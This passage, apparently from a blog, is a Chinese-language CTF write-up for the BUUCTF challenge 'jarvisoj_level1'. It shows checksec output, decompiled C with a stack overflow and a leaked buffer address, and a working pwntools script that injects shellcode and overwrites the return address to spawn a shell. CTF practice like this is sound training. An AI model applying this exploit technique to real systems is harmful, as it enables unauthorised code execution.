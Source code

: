 ![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_fm/7.png)

------

### [jarvisoj_level1](https://buuoj.cn/challenges#jarvisoj_level1)

先`file ./level1`查看文件类型再`checksec --file=./level1`检查文件保护情况。

```bash
┌──(tyd㉿kali-linux)-[~/ctf/pwn/buuctf]
└─$ file ./level1
./level1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=7d479bd8046d018bbb3829ab97f6196c0238b344, not stripped

┌──(tyd㉿kali-linux)-[~/ctf/pwn/buuctf]
└─$ checksec --file=./level1
[*] '/home/tyd/ctf/pwn/buuctf/level1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

用`IDA Pro 32bit`打开附件`level1`，按`F5`反汇编源码并查看主函数。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

双击`vulnerable_function()`函数查看详情，可以看到该函数中有一个`char`型局部变量`buf`，其可用栈大小为`0x88`，但是`read()`函数限制从`stdin`中读入到`buf`的字节大小为`0x100`，显然存在栈溢出漏洞。此外，`printf`函数会直接将变量`buf`的地址泄露出来。

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF
  printf("What's this:%p?\n", buf);
  return read(0, buf, 0x100u);
}
```

我们先截取`printf`函数打印出来的`buf`变量地址，在`buf`地址写入`shellcode`后，利用栈溢出漏洞覆盖`vulnerable_function()`函数返回地址，劫持程序去执行写入的`shellcode`。结果我吐了，本地能打通，靶机打不通。

```python
from pwn import *

context(arch='i386', os='linux', log_level='debug')
io = process('./level1')
# io = remote('node4.buuoj.cn', 25155)
io.recvuntil(b"What's this:")
buf_addr = int(io.recv()[2:-2], 16)
log.info('buf_addr: %#x', buf_addr)
shellcode = asm(shellcraft.sh())
payload = shellcode + b'a' * (0x88+0x4-len(shellcode)) + p32(buf_addr)
io.sendline(payload)
io.interactive()
```
